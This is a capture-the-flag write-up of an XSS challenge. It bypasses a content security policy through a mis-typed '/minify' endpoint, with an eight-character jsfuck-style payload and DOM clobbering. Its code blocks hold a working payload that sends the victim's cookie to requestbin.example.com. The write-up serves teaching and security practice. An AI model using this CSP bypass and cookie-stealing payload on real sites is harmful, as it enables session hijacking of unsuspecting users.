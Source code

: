 There is an obvious XSS vunlerability in the `/:codeId` page, but because of CSP it's impossible to inject inline or external scripts.

You can use the endpoint `/minify` as JavaScript code, because the endpoint doesn't set `content-type` header properly. This means that you have to write XSS payload using only 8 characters: `><+-=[]r`.

Note that you can inject any HTML and the character `r` is allowed in the `/minify` endpoint, so thanks to DOM Clobbering you can access DOM elements.

The basic idea of payload is as below.

```js
element['ownerDocument']['defaultView']['location']='https://requestbin.example.com/?'+element['ownerDocument']['cookie']
```

According to [jsfuck](https://github.com/aemkei/jsfuck), You can build the string `alt` in the following way:

```js
// 'alt' === 'NaN'[1] + 'false'[2] + 'true'[0]
console.log(
    [+[][[]]+[]][+[]][++[[]][+[]]]+[[[[]>[]][+[]]]+[]][+[]][++[++[[]][+[]]][+[]]]+[[[]>=[]]+[]][+[]][+[]]
) // 'alt'
```

So you can get an arbitrary string by accessing DOM elements through the `alt` attribute of `img` elements you injected.

```html
<!-- payload example -->
<img alt="ownerDocument" id="rr">
<img alt="defaultView" id="rrr">
<img alt="location" id="rrrr">
<img alt="cookie" id="rrrrr">
<a href="https://requestbin.example.com/?" id="rrrrrr"></a>
<script src="/minify?code=rr%5Brr%5Br%3D%5B%2B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%2B%5B%5B%5D%5D%5B%2B%5B%5D%5D%5D%2B%5B%5B%5B%5B%5D%3E%5B%5D%5D%5B%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%2B%5B%2B%2B%5B%5B%5D%5D%5B%2B%5B%5D%5D%5D%5B%2B%5B%5D%5D%5D%2B%5B%5B%5B%5D%3E%3D%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%5D%5D%5Brrr%5Br%5D%5D%5Brrrr%5Br%5D%5D%3Drrrrrr%2Brr%5Brr%5Br%5D%5D%5Brrrrr%5Br%5D%5D"></script>
```

The JS part with comments:

```js
rr[
    // r === 'alt'
    // 'ownerDocument'
    rr[r=[+[][[]]+[]][+[]][++[[]][+[]]]+[[[[]>[]][+[]]]+[]][+[]][++[++[[]][+[]]][+[]]]+[[[]>=[]]+[]][+[]][+[]]]
][
    // 'defaultView'
    rrr[r]
][
    // 'location'
    rrrr[r]
] = rrrrrr /* rrrrrr.toString() === rrrrrr.href */ + rr[
    // 'ownerDocument'
    rr[r]
][
    // 'cookie'
    rrrrr[r]
]
```

After sending the payload to `/submit` and reporting the poisoned page, a cralwer will visit the page and access your server with the flag.

